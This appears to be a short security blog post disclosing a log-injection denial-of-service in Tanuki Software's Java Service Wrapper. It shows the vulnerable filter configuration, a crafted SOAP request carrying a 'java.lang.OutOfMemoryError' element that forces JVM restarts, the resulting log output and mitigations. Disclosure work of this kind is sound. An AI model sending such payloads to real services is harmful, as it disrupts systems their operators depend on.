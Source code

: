 ```yaml
---
layout: post
title:  "Process restart / Denial of Service by logfile injection on Tanuki Software Java Service Wrapper filter action"
date:   2019-08-29 21:50:00 MEST
author: 'psytester'
---
```


Recently, when I played with logfile injection, I found a nice catch in the filter action of Tanuki Software's Java Service wrapper when [OutOfMemoryError Detection](https://wrapper.tanukisoftware.com/doc/english/prop-filter-x-n.html#outofmemory) is used.

```
The simplest way to do this is as follows:
Example:
wrapper.filter.trigger.1=java.lang.OutOfMemoryError
wrapper.filter.action.1=RESTART
```

This sample configuration might also be used in the production environment?

We just need to send a payload that will be propagate to the wrapper.log file at runtime.
In my case, I addressed a Soap IF and created a request with errors to cause an unmarshalling error.

Build a faulty SOAP request that ensures that the string java.lang.OutOfMemoryError is written in the log file, I added the non existing "java.lang.OutOfMemoryError" element to the namespace:
```
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:ns2=......>
   <soap:Header/>
   <soap:Body>
      <ns2:SoapOperation>
		.....
        <ns2:validElement><ns2:java.lang.OutOfMemoryError>Inject Me</ns2:java.lang.OutOfMemoryError></ns2:validElement>
		.....
      </ns2:SoapOperation>
   </soap:Body>
</soap:Envelope>
```

The goal is achieved, the false positive leads to the process restart:
```
INFO   | jvm 1    | 2019/08/21 13:38:13 | DefaultValidationEventHandler: [ERROR]: unexpected element (........., local:"java.lang.OutOfMemoryError"). Expected elements are (none)
STATUS | wrapper  | 2019/08/21 13:38:13 | The JVM has run out of memory.  Restarting JVM.
```

Mitigation:
- do not use this special filter action
- or the application needs to catch such exceptions, otherwise it will be visible in wrapper.log
